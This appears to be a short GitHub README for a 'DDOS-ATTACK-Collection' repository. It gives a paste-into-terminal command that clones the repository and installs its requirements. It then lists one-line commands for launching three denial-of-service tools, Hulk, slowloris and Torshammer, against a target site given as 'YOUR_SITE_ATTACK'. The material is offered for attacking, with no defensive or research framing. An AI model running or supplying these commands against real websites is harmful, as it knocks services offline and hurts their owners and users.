 # DDOS-ATTACK-Collection

Copy "sudo git clone https://github.com/4lT4lR/DDOS-ATTACK-LINUX.git && cd DDOS-ATTACK-LINUX && pip install -r requirements.txt" And Past on Terminal Command For setup all tools require

# Hulk-ATTACK :- 
cd hulk && chmod +x * && python2 hulk.py YOUR_SITE_ATTACK 


# slowloris-ATTACK :- 
cd slowloris && chmod +x * && python2 setup.py && python2 slowloris.py

# Torshammer-ATTACK :-  
cd Torshammer && chmod +x * && python2 Torshammer.py YOUR_SITE_ATTACK 
